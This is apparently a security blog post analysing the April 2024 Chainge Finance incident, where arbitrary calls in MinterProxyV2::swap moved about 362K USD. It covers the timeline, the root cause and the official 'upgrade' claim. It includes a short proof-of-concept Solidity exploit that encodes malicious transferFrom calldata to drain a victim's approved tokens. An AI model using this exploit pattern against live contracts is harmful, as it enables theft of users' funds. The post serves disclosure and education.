


### 0x00 Summary

On April 15, 2024, [Chainge Finance](https://chainge.finance/) experienced a significant fund migration (~362K) due to arbitrary calls in the core function. Shortly after that, the officials claim it is a system upgrade, not a hack.

### 0x01 Introduction
Chainge Finance, a project within the Fusion ecosystem, offers various products, including DEXs, Aggregators, Web3 Browser, and wallets.

The vulnerability lies in the `swap` function within the `MinterProxyV2` contract, a crucial part of the DEX aspect of the project. Bad actors can perform arbitrary calls through the function.

There are three malicious transactions in total [1], and more than 362K USD (362,188.4 USD) loss were identified:

[Transaction 1](https://bscscan.com/tx/0x051276afa96f2a2bd2ac224339793d82f6076f76ffa8d1b9e6febd49a4ec11b2), Loss: 143747.9 USD

[Transaction 2](https://bscscan.com/tx/0x407e09faabf7072cd10dc86b7fa3180ccc1701f52f7fdca29464568498c30997), Loss: 73623.53 USD

[Transaction 3](https://bscscan.com/tx/0x21d8b164f0cb8beb1ed27d164ed986c3fc26b33655ce18226b05b9cfcf6cd93c), Loss: 144,816.97 USD

The fund flow is as follow, the graph can be found here, all the funds are sent from vault address to the attacker address



Shortly after the significant fund migration, the official Chainge Finance account on Twitter stated that the incident was a system upgrade rather than a black hat attack. Telegram moderators also confirmed it was a system upgrade.

The CEO of Chainge Finance reassured the community that all funds were secure and that the upgrade would enhance operability. A few hours later, some funds began returning to the vault address.

### 0x02 Timeline

2024-04-15 11:42:54 (UTC), transaction 1 takes place

2024-04-15 11:54:50 (UTC), transaction 2 takes place

2024-04-15 11:56:58 (UTC), transaction 3 takes place

2024-04-15 12:24:02 (UTC), Official Twitter account annouce it is an upgrade, not a hack

2024-04-15 14:02:21 (UTC), Chainge CEO Twitter account state it is an upgrade as well

2024-04-15 20:26:12 (UTC), Some funds start going back to the vault address

### 0x03 Root Cause

The vulnerability lies in the `MinterProxyV2::swap` function, which allows arbitrary calls. In the `MinterProxyV2` Contract, users can pass data as a parameter into the function. Malicious actors are able to execute `transfer` or `transferFrom` operations, resulting in fund losses.

The vulnerable implementation locates in Line 720.



The attack process is straightforward: the attacker repeatedly checks the balance and allowance of a token, inserts malicious `transferFrom` or `transfer` calldata into the function, and triggers the swap operation. Within this operation, the `MinterProxyV2` contract executes the arbitrary call, leading to the loss of funds.

### 0x04 Proof of Concept
I have presented a proof-of-concept on [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/pull/621), which you can review it there.

Below is the some code snippets related to the Proof of Concepts. I construct malicious calldata here to execute the transferFrom function, resulting in the transfer of funds from the victim’s address to a specified destination.

```C
function exploit() external {
    uint256 amount;
    bytes memory data;

    uint256 BSC_USD_BALANCE = IBEP20(BSC_USD_ADDR).balanceOf(VICTIM);
    uint256 BSC_USD_ALLOWANCE = IBEP20(BSC_USD_ADDR).allowance(VICTIM, MINT_PROXY_V2);
    amount = BSC_USD_BALANCE > BSC_USD_ALLOWANCE? BSC_USD_ALLOWANCE : BSC_USD_BALANCE;
    /* Malicious Calldata Here */
    data = abi.encodeWithSelector(0x23b872dd, VICTIM, owner, amount); 
    // function selector of `transferFrom` is 0x23b872dd

    MinterProxyV2(MINT_PROXY_V2).swap(
        address(this), 1, BSC_USD_ADDR, address(this), address(this), 1, data, new bytes(0x01)
    );
}
```

### 0x05 Lesson Learned
Arbitrary calls are a significant risk!

Numerous attack incidents have exploited this vulnerability, such as the Seneca attack on February 28, 2024, which led to approximately 6 million in losses, and the BmiZapper attack, resulting in around 114K in losses.

Even though the official are calling the massive fund shift an “upgrade” and not a “hack”, it makes you wonder whether it is a good choice for protocols to move all their vault money around for updates without giving users a heads-up first.

### 0x06 Reference
[1] [Blocksec Phalcon Event Alert](https://x.com/Phalcon_xyz/status/1779843813151739918)